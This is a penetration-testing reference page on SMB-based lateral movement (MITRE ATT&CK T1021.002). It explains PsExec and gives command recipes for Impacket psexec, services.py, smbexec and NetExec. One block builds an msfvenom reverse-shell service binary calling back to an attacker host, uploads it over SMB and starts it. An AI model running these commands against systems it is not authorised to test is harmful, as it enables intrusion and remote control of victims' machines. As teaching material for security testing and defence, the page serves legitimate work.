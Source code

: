 ```yaml
---
description: 'MITRE ATT&CK™ Remote Services: SMB/Windows Admin Shares - Technique T1021.002'
---
```


# SMB-based

## Theory

[SMB Protocol](../../network/protocols/smb.md) can be abuse by attackers to execute remote code and perform lateral movements.

## Practice

### PsExec

Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), It connect to the $ADMIN shares with SMB and upload a service binary. Psexec uses psexesvc.exe as the name. Then it connect to the service control manager to create and run a service named PSEXESVC associated with the previous binary. Finally Psexec create some named pipes to handle stdin/stdout/stderr.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
psexec.py username:password@10.10.10.10 cmd.exe
```

We may manually replicate techniques use by PsExec with [service.py](https://github.com/fortra/impacket/blob/master/examples/services.py) from impacket

```bash
# Create an exe as a service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f exe-service --platform windows -e x64/xor_dynamic  -o shell.exe

# Upload the exe to windows machine
smbclient '\\<TARGET>\smbshare' -U <user> -c "put shell.exe test.exe"

# Using impacket services.py create service remotely
services.py WORKGROUP/<user>@<TARGET> create -name shell-svc -display my-shell-svc -path "\\\\<TARGET>\\smbshare\\shell.exe"

# Using impacket services.py start the service and get the shell
services.py WORKGROUP/<user>@<TARGET> start -name shell-svc
```
{% endtab %}

{% tab title="Windows" %}
On windows, we can use [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) from Windows Sysinternals tools

```powershell
#Run PsExec
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
{% endtab %}
{% endtabs %}

### SmbExec

SmbExec is an [Impacket](https://github.com/fortra/impacket) script that works similarly to PsExec without using RemComSvc. The main difference is that smbexec avoids transferring a potentially detectable binary to the target site. Instead, it lives completely off the land by running the local Windows command shell.\
implementation goes one step further, instantiating a local smbserver to receive the output of the commands. This is useful in the situation where the target machine **does NOT have a writeable share** available.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
#Semi-interactive shell (doesn't need writable share on the target)
smbexec.py <domain>/<username>:<password>@<host>
```
{% endtab %}
{% endtabs %}

### NetExec

You can utilize [NetExec](https://github.com/Pennyw0rth/NetExec) as a powerful alternative to SMBexec or PsExec for executing code over SMB connections. You can specify the execution methode and the shell interpretor (cmd or powershell.

{% tabs %}
{% tab title="UNIX-like" %}
[NetExec](https://github.com/Pennyw0rth/NetExec) can execute a remote process.

```bash
#Execute cmd command through smbexec method (methods: mmcexec,atexec,smbexec,wmiexec)
netexec smb <TARGET> -u <USER> -p <PASSWORD> --exec-method smbexec -x whoami

#Execute powershell command through atexec method (methods: mmcexec,atexec,smbexec,wmiexec)
netexec smb <TARGET> -u <USER> -p <PASSWORD> --exec-method atexec -X whoami

#Execute powershell (32bits) command through default wmiexec method (methods: mmcexec,atexec,smbexec,wmiexec)
netexec smb <TARGET> -u <USER> -p <PASSWORD> --force-ps32 -X whoami
```
{% endtab %}
{% endtabs %}
